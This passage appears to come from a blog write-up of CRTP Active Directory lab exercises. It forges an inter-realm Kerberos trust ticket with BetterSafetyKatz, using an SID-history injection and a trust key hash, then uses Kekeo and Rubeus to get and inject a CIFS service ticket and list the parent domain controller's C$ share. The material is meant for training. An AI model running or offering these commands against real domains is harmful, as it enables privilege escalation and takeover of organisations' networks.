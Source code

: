 We can forge and inter-realm TGT:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```	

![Alt text](/assets/images/posts/crtp/22.png){: .align-center}



**Abuse with Kekeo**

Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket:
```powershell
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

Use the TGS to access the targeted service:
```powershell
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```

> Tickets for other services (like **HOST** and **RPCSS for WMI**, **HTTP for PowerShell Remoting** and **WinRM**) can be created as well.


**Abuse with Rubeus**

Note that we are still using the TGT forged initially:
```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt 
ls \\mcorp-dc.moneycorp.local\c$
```

Learning Objective 18
